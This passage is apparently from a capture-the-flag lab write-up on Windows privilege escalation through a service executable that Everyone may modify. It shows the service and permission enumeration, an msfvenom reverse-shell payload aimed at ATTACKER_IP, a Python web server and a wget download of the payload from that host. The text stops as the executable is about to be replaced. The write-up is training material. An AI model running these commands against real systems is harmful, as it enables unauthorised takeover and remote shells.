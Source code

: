 ```powershell
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: windowsscheduler
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 0 IGNORE
BINARY_PATH_NAME : C:\PROGRA~2\SYSTEM~1\WService.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : System Scheduler Service
DEPENDENCIES :
SERVICE_START_NAME : .\svcuser1

```

\
We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```powershell
C:\Users\thm-unpriv>icacls 
C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
Successfully processed 1 files; Failed processing 0 files
```

And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.\
Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

{% code fullWidth="false" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endcode %}



We can then pull the payload from Powershell with the following command:\
Powershell\
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:\
Command Prompt\
`C:\> cd C:\PROGRA~2\SYSTEM~1\`
